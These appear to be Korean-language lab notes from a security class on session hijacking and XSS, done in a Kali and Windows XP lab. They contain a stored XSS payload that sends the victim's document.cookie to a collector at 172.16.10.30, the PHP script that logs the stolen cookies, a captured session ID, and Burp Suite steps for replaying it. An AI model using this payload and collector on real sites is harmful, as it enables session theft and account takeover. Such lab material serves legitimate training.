 

# 10.20 세션 하이제킹, XSS, Cookie, CSRF

### 세션 하이젝킹

###### 칼리

admin 로그인 -> 글 쓰기

스크립트 자동 넘어가게 구라로 이미지 넣기

```
<img name="i" width="0" height="0"></img>
<script>i.src="http://172.16.10.30/getcookie.php?cookie="+document.cookie</script>
너는 해킹당했다 ㅋㄷㅋㄷ
```



###### XP

글 클릭하기



###### 칼리

root@kali-04:/var/www/html# cat /var/www/html/cookie.dat

PHPSESSID=8f29i1d72c6jmp4esq4v2b79l2root@kali-04:/var/www/html# 



앞에 값 복사해서



Burp Suite -> Proxy -> Options -> Match and Replace

```
Match: Cookie: *.*
Cookie: PHPSESSID=8f29i1d72c6jmp4esq4v2b79l2
```



### XSS

#### 쿠키

쿠키 설정할 때 이름 너무 헷갈리니까 다시 설정

###### 칼리

root@kali-04:/var/www/html# cd /var/www/html
root@kali-04:/var/www/html# vim getcookie.php

```
<?php
		$cookie = $_GET['cookie'];
		$save_file = fopen("cookie.dat", "a");
		fwrite($save_file, $_SERVER['REMOTE_ADDR']." : ");
		fwrite($save_file, $cookie."\n");
		fclose($save_file);
?>
		
```
